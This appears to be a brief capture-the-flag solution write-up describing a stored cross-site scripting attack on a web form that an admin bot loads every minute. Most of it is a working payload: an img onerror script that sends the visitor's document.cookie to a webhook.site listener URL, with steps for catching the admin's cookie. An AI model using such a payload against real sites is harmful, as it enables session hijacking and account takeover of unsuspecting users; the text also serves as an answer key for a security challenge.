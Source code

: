 Get a dummy server here or anything to listen for requests
https://webhook.site/

Add xss script to the form data
<img src=x onerror="this.src=' https://webhook.site/80d09e24-2b3c-440c-aba5-a63ac53515a8/?'+document.cookie; this.removeAttribute('onerror');">

Cronjob/admin is set to load the admin page every minute. Triggers the script and will send a request with the cookie as paramter to the dummy server.

Easy clap
